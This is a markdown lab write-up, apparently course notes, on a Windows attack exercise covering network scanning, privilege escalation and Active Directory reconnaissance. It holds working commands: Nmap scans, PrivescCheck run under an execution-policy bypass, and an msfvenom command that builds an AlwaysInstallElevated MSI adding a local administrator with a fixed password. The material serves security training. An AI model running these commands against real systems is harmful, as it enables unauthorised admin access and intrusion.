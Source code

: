 # Windows Attack example
Based on lab tasks: Maintaining access and Lateral Movement

**Premise**
We have already gained access (infected 2 machines): 
- a linx machine
- a windows machine
    - with ad user tmassie (without local admin rights)
    - tools like Mimikatz, etc. are available 
        - (in a real environment, these tools would be detected)



## 1. Basics, Host + Service discovery
From the Linux machine, we perform analysis of the network
1. `ip -c address list eth0`  (as root): we get our IP and network address
2. Host discovery via Nmap 
    - `nmap -n -Pn --top-ports=10 10.0.1.0/24 -oA nmap_winlab_host_discovery --min-rate=5000` (will write result into file because of -oA)
        - -n -> no DNS resolution
        - --min-rate=5000 -> set a minimum rate to guarantee a timely result
    - `cat nmap_winlab_host_discovery.gnmap | awk '/Up/ {print $2}' | sort -Vu > hosts_winlab.txt` 
        - take result from nmap scan and write ip's into a file (`cat cat hosts_winlab.txt`)
3. Service discovery
    - `nmap -n -sC -sV -iL hosts_winlab.txt -oA nmap_winlab_script_version_scan --min-rate=5000` takes list of Ips and runs service discovery (via -iL param)
        - sC -> Script Scan -> Runs default scripts against known services
        - -sV -> Service/Version detection -> Tries to determine service/version for open ports

## Situational awareness and privilege escalation

**Windows configuration check with PrivescCheck**
Run PrivescCheck ( https://github.com/itm4n/PrivescCheck ) to get info about windows configuration. 
1. `powershell -exec bypass`
2. `cd C:\temp\tools\PrivescCheck\`
3. `Import-Module .\PrivescCheck.ps1`
4. `Invoke-PrivescCheck` -> we get result with configuration issues. 
    - We might see something like: "CONFIG > WSUS Configuration" or "CONFIG > AlwaysInstallElevated"

**Privilege escalation vie AlwaysInstalledElevated**
We assume the the PrivescCheck has shown we are vulnerable AlwaysInstalledElevated
(allows to run MSI as admin https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated). 
Our goal is now create an msi that creates a local admin and run it. 

1. Create msi metasploit/msfvenom (on linux)
    - `msfvenom -p windows/x64/exec CMD='cmd.exe /k "net user /add hacker Hacker@Work && net localgroup administrators hacker /add"' -f msi > useradd.msi`
        - will create a msi file "useradd.msi" that runs the following code: "net user /add hacker Hacker@Work && net localgroup administrators hacker /add"$
        - User to be created: "hacker" with password "Hacker@Work"
2. Copy file to windows machine
    - any means is possible (web attachment, file share etc.)
    - one way is gosh, as small webserver: https://github.com/patrickhener/gosh (see lab task)
    - attention: when downloading on windows machine, one might have to click away warning
3. Run created msi on linux
    - just run created msi (click away warning) and user is created (even if installer seems to abort)
4. Check
    - run `net user` and `net user hacker` to see if creation was successful
5. run as local admin (hacker)
    - start cmd as admin, pop up will show and we can enter credentials ("hacker", "Hacker@Work")
    - now we can run commands as local admin
        `whoami /groups?` -> we see that our user is in Administrator group and by "Mandatory label\High Mandatory Level" we see it runs in elevated mode

## Active directory info gathering & analysis

1. Runs PingCastle `.\PingCastle.exe` and choose healthcheck to generate result as html. 
https://www.pingcastle.com/PingCastleFiles/ad_hc_rules_list.html


2. Run bloodhound to find potential paths to domain admin
    - see lab tasks
    - see Bloodhound tool